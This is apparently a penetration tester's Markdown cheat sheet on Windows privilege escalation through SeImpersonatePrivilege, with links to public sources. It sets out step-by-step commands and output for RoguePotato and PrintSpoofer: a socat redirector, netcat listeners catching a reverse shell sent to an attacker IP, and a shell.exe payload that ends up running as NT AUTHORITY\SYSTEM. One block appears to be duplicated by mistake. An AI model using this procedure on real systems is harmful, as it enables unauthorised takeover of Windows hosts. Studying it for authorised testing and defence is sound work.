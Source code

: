 # Living off the Land

## 01 - Detect

Check if `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege` is enabled.

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[omitted]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[omitted]..
```

## 02 - Exploit

### 2.1 - RoguePotato

Start with a redirector using `socat`.

```
$ sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_IP>:9999

C:\Windows\system32> whoami
win-qba94kb3iof\admin

C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
..[omitted]..
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
..[omitted]..
```

Start a shell handler before running `PsExec64.exe` as in `NT AUTHORITY\LOCAL SERVICE` to receive a callback shell.

```
C:\Windows\system32> cd c:\Tools

C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> cd c:\Tools

C:\Tools> RoguePotato.exe -r <attacker_IP> -e shell.exe -l 9999
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ...
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] IStoragetrigger written:106 bytes
[*] SecurityCallback RPC call
[*] ServerAlive2 RPC Call
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!
[+] Got SYSTEM Token!!!
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: shell.exe
[+] RoguePotato gave you the SYSTEM powerz :D

$ sudo nc -lnvp 53
C:\Tools> whoami
nt authority\system
```

### 2.2 - PrintSpoofer

```
C:\Tools> PsExec64.exe -i -u "nt authority\local service" c:\Tools\shell.exe

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\local service

C:\Windows\system32> whoami /priv

C:\Windows\system32> cd c:\Tools

C:\Tools> PrintSpoofer.exe -c shell.exe -i
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

$ sudo nc -lnvp 53
C:\Windows\system32> whoami
nt authority\system
```

---
## References

### Github

- [itm4n: PrinterSpoofer](https://github.com/itm4n/PrintSpoofer)

- [lypd0: DeadPotato](https://github.com/lypd0/DeadPotato)

- [breenmachine: RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)

### Hacktricks

- [Hacktricks: RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer)

- [Hacktricks: Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

### Hacking Articles

- [Hacking Articles: Windows Privilege Escalation SeImpersonatePrivilege](https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/)

### itm4n

- [itm4n: PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

### Juggernaut-Sec

- [Juggernaut-Sec: SeImpersonatePrivilege – Windows Privilege Escalation](https://juggernaut-sec.com/seimpersonateprivilege/)

### ohpe

- [ohpe: Juicy Potato CLSID Enumeration](https://ohpe.it/juicy-potato/CLSID/)

### Jlajara

- [Jlajara: Potatoes Windows Privilege Escalation](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)